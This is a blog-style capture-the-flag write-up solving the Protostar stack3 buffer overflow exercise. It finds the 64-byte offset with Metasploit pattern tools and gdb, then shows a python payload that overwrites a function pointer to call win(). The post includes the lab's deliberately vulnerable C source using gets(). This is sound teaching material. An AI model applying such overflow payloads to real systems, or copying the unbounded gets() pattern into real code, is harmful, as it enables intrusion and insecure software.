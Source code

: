 ```yaml
---
layout: post
title: Buffer Overflow Examples, Overwriting a function pointer - protostar stack3
categories: binary-exploitation
tags: [linux, binary-exploitation, buffer-overflow, c, python]
description: Another post where I overwrite a variable value which is used as a function pointer. (x32)
image: binary-exploitation/BOF3/0.png
---
```


<hr>
## Introduction 
<br> Hey I'm back again with another article , today I'm going to solve protostar stack3 but this time it's going to be a bit different , In the last two articles I solved stack0 , stack1 and stack2 and I used the source code of the binaries to identify where the buffer overflow happens and what exploit to use. Now with stack3 we are given the source code but We are not going to use it, Instead of that we will use some practical techniques to solve this challenge. Because in a real situation we won't have the source of the program right ? Let's see
![](/images/binary-exploitation/BOF3/0.png)
<br>
<br> If you haven't read my [previous articles](/binary-exploitation/bof2/) about buffer overflow I recommend reading them first
<br>
<hr>
## ./Stack3
<br> Let's first look at the program and see what does it do.
` ./stack3`
![](/images/binary-exploitation/BOF3/1.png)
<br> We don't see any output so we should give it an argument. We need to confirm that the program is vulnerable to a buffer overflow so we can pass an argument of 100 chars and see what happens
`python -c "print 'A' * 100" | ./stack3`
![](/images/binary-exploitation/BOF3/2.png)
<br> And we see a segfault which confirms that a buffer overflow happened , we also see this line : "calling function pointer , jumping to 0x41414141"
<br> So now we have an idea about what's happening here, There's a function pointer that executes a function based on the given memory address of that function. That memory address is stored in a variable and we can overwrite that variable when we exceed the buffer. We see that the function pointer was calling the address `0x41414141` and `0x41` is the hex of "A". Now we have to do two things. The first thing is to know where the buffer overflow happens, Because here we have given the program an argument of 100 chars but we don't know exactly the size of the buffer. The second thing is to find the memory address of the function that we need to execute. Let's see how to do that.
<br>
<hr>
## Finding the size of the buffer 
<br> To make things easier I compiled the program on my kali box to start testing there.
<br> Metasploit has two scripts called `pattern_create` and `pattern_offset` , you can find them on kali in `/usr/share/metasploit-framework/tools/exploit` 
<br> `pattern_create` creats a unique string of a defined length so we will create a pattern of 100 chars.
`./pattern_create.rb -l 100`
![](/images/binary-exploitation/BOF3/3.png)
<br> Now let's run the program in gdb , I'm using [gdb-peda](https://github.com/longld/peda)
<br> First we set a break point in main .
`break *main`
<br> This makes the program break after the first instruction of the function main()
![](/images/binary-exploitation/BOF3/4.png)
<br> Then we `run` the program.
![](/images/binary-exploitation/BOF3/5.png)
<br> It stops at the break point. We do `c` to make it continue then pass our argument
![](/images/binary-exploitation/BOF3/6.png)
<br> The segfault happens and we see where it happened: `0x63413163`
![](/images/binary-exploitation/BOF3/7.png)
<br> Now we will use `pattern_offset` to know what is the location of `0x63413163`
`./pattern_offset -l 100 -q 63413163`
![](/images/binary-exploitation/BOF3/8.png)
<br> And we get exact match at offset 64 , This means that the buffer size is 64 chars and after that the overflow happens.
<br>
<hr>
## Finding the memory address of the function
<br> If we do `info functions` from gdb it will list all the functions and their memory addresses , we can also do that with objdump. But what is the function we're looking for ?
`info functions`
![](/images/binary-exploitation/BOF3/9.png)
<br> We see a lot of functions but the most interesting one is called "win" , but the address on my kali box will be different from the address on the protostar machine. We will return to protostar and use objdump to find it.
`objdump -d stack3`
![](/images/binary-exploitation/BOF3/10.png)
<br>
<br>
<br>
![](/images/binary-exploitation/BOF3/11.png)
<br> And we got the address `0x08048424` 
<br>
<hr>
## Applying the exploit
<br> Now we can easily build our exploit , we know that the buffer is 64 chars after that we can pass the address of the function and the function pointer will execute it.
`python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | ./stack3`
![](/images/binary-exploitation/BOF3/12.png)
<br> And we get the output "code flow changed successfully"
<br> We solved it without the source , now let's look at the source 
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
 printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
 volatile int (*fp)();
 char buffer[64];

 fp = 0;

 gets(buffer);

 if(fp) {
  printf("calling function pointer, jumping to 0x%08x\n", fp);
  fp();
 }
}
```
<br> We see function `win()` is defined at the top then after that the function `main()` which defines the function pointer , sets a buffer of 64 chars to it , then sets its value to 0. After that it takes our argument and stores it in the buffer. The last thing is an if statement that checks if the function pointer value is changed from 0 then it calls the address of that new value.
<br>
<br>
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous articles](/categories) , Tweet about the article if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br>
<br>
<br> Previous Binary Exploitation article : [Buffer Overflow Examples, Overwriting a variable value on the stack - Protostar Stack1 , Stack2](/binary-exploitation/bof2/)
<br> Next Binary Exploitation article : [Buffer Overflow Examples, Taking control of the instruction pointer - protostar stack4](/binary-exploitation/bof4/)
<hr>
